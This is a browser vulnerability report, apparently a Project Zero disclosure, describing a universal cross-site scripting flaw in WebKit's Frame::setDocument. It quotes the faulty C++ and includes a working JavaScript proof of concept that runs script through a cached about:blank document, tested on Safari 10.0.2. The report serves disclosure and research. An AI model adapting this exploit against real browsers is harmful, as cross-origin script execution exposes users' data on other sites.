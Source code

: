 # UXSS via Frame::setDocument (1).

### Reported by <lokihardt@google.com>, Dec 20 2016

```cpp
void Frame::setDocument(RefPtr<Document>&& newDocument)
{
    ASSERT(!newDocument || newDocument->frame() == this);

    if (m_doc && m_doc->pageCacheState() != Document::InPageCache)
        m_doc->prepareForDestruction();

    m_doc = newDocument.copyRef();
    ...
}
```

The function `prepareForDestruction` only called when the cache state is not `Document::InPageCache`. So the frame will be never detached from the cached document.

PoC:
```js
"use strict";

document.write("click anywhere to start");

window.onclick = () => {
let w = open("about:blank", "one");
let d = w.document;

    let a = d.createElement("a");
    a.href = "https://abc.xyz/";
    a.click();  // <<------- about:blank -> Document::InPageCache

    let it = setInterval(() => {
        try {
            w.location.href.toString;
        } catch (e) {
            clearInterval(it);

            let s = d.createElement("a");  // <<------ about:blank's document
            s.href = "javascript:alert(location)";
            s.click();
        }
    }, 0);

};
```

Tested on Safari 10.0.2(12602.3.12.0.1).

Link: https://bugs.chromium.org/p/project-zero/issues/detail?id=1056
